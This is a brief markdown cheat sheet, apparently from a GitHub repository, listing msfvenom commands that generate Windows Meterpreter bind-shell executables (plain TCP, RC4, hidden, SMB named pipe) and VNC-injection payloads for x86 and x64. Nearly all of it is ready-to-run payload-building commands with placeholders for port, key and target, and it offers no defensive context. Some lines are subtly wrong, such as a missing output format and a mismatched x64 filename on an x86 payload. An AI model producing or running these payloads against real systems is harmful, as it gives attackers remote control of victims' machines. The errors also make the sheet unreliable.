 # Bind Shells

## Interactive Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/bind_hidden_tcp ahost=<IP> lport=<PORT> -f exe -o hidden-met-x64.exe`

`$ msfvenom -p windows/meterpreter/bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f -o met-x86.exe`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f exe -o met-x64.exe`

`$ msfvenom -p windows/x64/meterpreter/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o met-x64.exe`

For the SMB pipe the default for LPORT will always be port **445** 

`$ msfvenom -p windows/x64/meterpreter/bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f exe -o met-x64.exe`

## VNC

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/vncinject/bind_tcp rhost=<target_IP> lport=<PORT> -f exe -o vnc-x86.exe`

`$ msfvenom -p cmd/windows/powershell/vncinject/bind_tcp rhost=<target_IP> lport=<PORT> -f raw -o vnc-x86.ps1`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/vncinject/bind_tcp rhost=<target_IP> lport=<PORT> -f exe -o vnc-x86-64.exe`